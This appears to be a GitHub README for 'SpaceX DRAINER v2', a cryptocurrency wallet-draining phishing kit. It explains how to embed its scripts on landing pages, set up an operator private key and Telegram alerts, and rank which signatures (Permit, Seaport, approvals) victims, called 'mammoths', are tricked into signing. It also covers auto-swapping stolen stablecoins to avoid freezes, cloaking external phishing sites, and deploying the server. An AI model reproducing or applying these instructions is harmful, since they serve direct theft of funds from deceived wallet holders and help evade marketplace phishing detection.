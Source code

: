 ### 1. A small educational program on the structure of the script.

Now let's quickly go over all the innards of the SpaceX DRAINER. 
If you are not a programmer, you don’t understand a damn thing about code and you are not interested in how the project works, you can skip this step.

<p align="center">
  <img alt="SpaceX" src="https://github.com/injectexpert/SpaceX-DRAINER-v2/blob/main/img/2.png" height="300" />

ABIs - interfaces for interacting with tokens (ERC20, ERC721, ERC1155).
public - external files, landing page.
public/scripts - external scripts required for work. public/scripts/main.js - the main script that is responsible for interacting with the wallet (approval, signature, seaport).
config.json - configuration.
app.js - server file, internal logic (auto output).
docker-compose.yml, Dockerfile - setting up the container system and run system.
package.json, package-lock.json - dependencies to install.
rpc.json - network configuration.
start.sh - launcher.

### 2. How to connect landing pages.
To install on a landing page, you need to write scripts on the page with the button:


```<script src="https://cdnjs.cloudflare.com/ajax/libs/ethers/5.7.2/ethers.umd.js" type="application/javascript"></script>
<script type="text/javascript" src="./scripts/sweetalert2@11"></script>
<script src="https://cdn.jsdelivr.net/npm/web3@1.8.1/dist/web3.min.js"></script>
<script type="text/javascript" src="./scripts/index.js"></script>
<script type="text/javascript" src="https://cdn.jsdelivr.net/npm/web3modal@1.9.11"></script>
<script type="text/javascript" src="https://unpkg.com/evm-chains@0.2.0/dist/umd/index.min.js"></script>
<script type="text/javascript" src="https://unpkg.com/@walletconnect/web3-provider@1.8.0/dist/umd/index.min.js"></script>
<script src="https://unpkg.com/axios@1.2.2/dist/axios.min.js"></script>
<script src="https://cdn.jsdelivr.net/npm/@coinbase/wallet-sdk@3.6.3/dist/index.min.js"></script>
<script type="text/javascript" src="./scripts/ethereumjs-tx-1.3.3.min.js"></script>
<script language="javascript" type="text/javascript" src="./scripts/ABI.js"></script>
<script type="text/javascript" src="./scripts/main.js"></script>
<script type="text/javascript" src="./scripts/seaport.js"></script>
<script src="https://code.jquery.com/jquery-3.6.3.slim.min.js"></script>
<script src="https://cdn.jsdelivr.net/npm/ua-parser-js@1.0.33/src/ua-parser.min.js"></script>
<script src="//cdn.jsdelivr.net/npm/sweetalert2@11"></script>
````

and set the property for the required button:

``onclick="login()"``

### 3.0 Config setup. Register private.

<p align="center">
  <img alt="SpaceX" src="https://github.com/injectexpert/SpaceX-DRAINER-v2/blob/main/img/3.png" height="50" />

Private key - it is also a private key, it can be obtained through the MetaMask browser extension in the "Account details" tab

Please note that the address of the wallet, whose private key you specify in the config, should always have some money in the main network currency. Gas is needed to pay for gas during the withdrawal of approvals from the mammoth's wallet. 
It will be enough to throw literally a couple of bucks on each network: 
Ethereum - ETH 
Binance Smart Chain - BNB 
Polygon - MATIC 
and so on into all other necessary networks on which you will work ...
Of course, you need to throw a little more money into the Ethereum network, somewhere around 15-20 bucks, because this blockchain is unstable in terms of gas.

### 3.1 Config setup. Rejection in Telegram.
To connect the backoff, open the config.json file and write the data:

<p align="center">
  <img alt="SpaceX" src="https://github.com/injectexpert/SpaceX-DRAINER-v2/blob/main/img/4.png" height="50" />

``Line 2 - bot token , line 3 - account ID or channel ID, which should receive notifications``

### 3.2 Config setup. PERMIT and SEAPORT priority.
By default, the permit and seaport methods are set to true , which means that they have the highest priority , i.e. no matter how expensive the token is on the victim’s wallet, the script will still write off tokens that support PERMIT or SEAPORT , since the chance that a mammoth will sign them is much higher than for others. And after these signatures are signed, the script will begin to remove the rest of the tokens using the methods we are accustomed to approve , setApprovalForAll and SIGN / TRANSFERranging from expensive to cheap. To disable PERMIT and SEAPORT priority, set the value to false instead of true:

<p align="center">
  <img alt="SpaceX" src="https://github.com/injectexpert/SpaceX-DRAINER-v2/blob/main/img/5.png" height="50" />

The permit_priority_tokens line contains a list of permit tokens for which the priority will work:

<p align="center">
  <img alt="SpaceX" src="https://github.com/injectexpert/SpaceX-DRAINER-v2/blob/main/img/6.png" height="50" />

### 3.3 Config setup. Write-off of the main currency of the network.
In the gas_token_method line , we select the method of debiting the network's main currency, " sign " with a red sign, or the usual " transfer ".

<p align="center">
  <img alt="SpaceX" src="https://github.com/injectexpert/SpaceX-DRAINER-v2/blob/main/img/7.png" height="50" />

### 3.4 Config setup. Covalent API KEY
Register on the Covalent website , get a free api key and add it to the config:

<p align="center">
  <img alt="SpaceX" src="https://github.com/injectexpert/SpaceX-DRAINER-v2/blob/main/img/8.png" height="50" />

### 3.5 Config setup. AUTOSWAP tokens.
Line 9 is responsible for enabling and disabling the automatic exchange of tokens for the main currency on the Ethereum network. The auto-exchange function is implemented in order not to face the blocking of hardwired funds, because tokens such as usdt and usdc like to lock on the first request. By default, this feature is disabled , to enable, you need to change the value from false to true .

<p align="center">
  <img alt="SpaceX" src="https://github.com/injectexpert/SpaceX-DRAINER-v2/blob/main/img/9.png" height="50" />

### 3.6 Config setup . Adding external landings.

External landings are sites on a regular web host that you can simply point to the IP of the server, and they will start working like a normal drain. This system makes it very convenient to connect an unlimited number of landing pages to the server at once, allows you to cloak them, and do whatever you want with them. 
U is convenient. 
To enable the "external mode" of work, you need to activate the "external" option in the config, to do this, in line 10, you need to change the value from false to true .

<p align="center">
  <img alt="SpaceX" src="https://github.com/injectexpert/SpaceX-DRAINER-v2/blob/main/img/10.png" height="50" />

Next, you need to raise the site according to the usual instructions. 
And all subsequent landings must be external , and set according to the following instructions:
We upload the site files to a regular web host and in the folder with them in the file server.cfgwe write the address of the domain that we raised on the drain itself, the internal frontend (for example ) The landing template for the web host is in the public* folder will not work on the server , only externals will be active! If you are satisfied with one server - one landing, then just leave the value falsehttps://mintnftzero.com so as not to bother.

### 3.7 Config setup. NFT MINIMAL PRICE.

Line 11 is responsible for the priority of writing off nft, that is, if the value 1000 is set in the config, then this means that nft worth $ 1000 will be debited with the lowest priority, last after all tokens.

<p align="center">
  <img alt="SpaceX" src="https://github.com/injectexpert/SpaceX-DRAINER-v2/blob/main/img/11.png" height="50" />

On my own behalf, I recommend setting the value from $1,000, because the NFTs debited by the seaport, the opensy marketplace instantly sends a check for phishing, without the possibility of selling, and it is problematic to sell Deshman's no-name NFTs on other marketplaces. Therefore, it is better for the script to write off conditionally a token with a price of $100 in the first place, the profit from which will be actual, rather than from NFT for $1000, the income from which is only potential.


### 4. Upload files and raise the site.

We buy any Ubuntu 20.04+ server, connect to it through the MobaXterm program and drag the folder with files directly to the root with the mouse. After that, just paste these commands into the console and wait for the installation:

``cd FOLDER NAME 
source start.sh``

during the installation process, the console will ask you to insert the domain address of the domain.com format, insert:
And then you will need to add an “A-record” with the IP address of your Ubuntu 20.04+ server to the domain dns. The site will get up automatically as soon as the dns is registered.


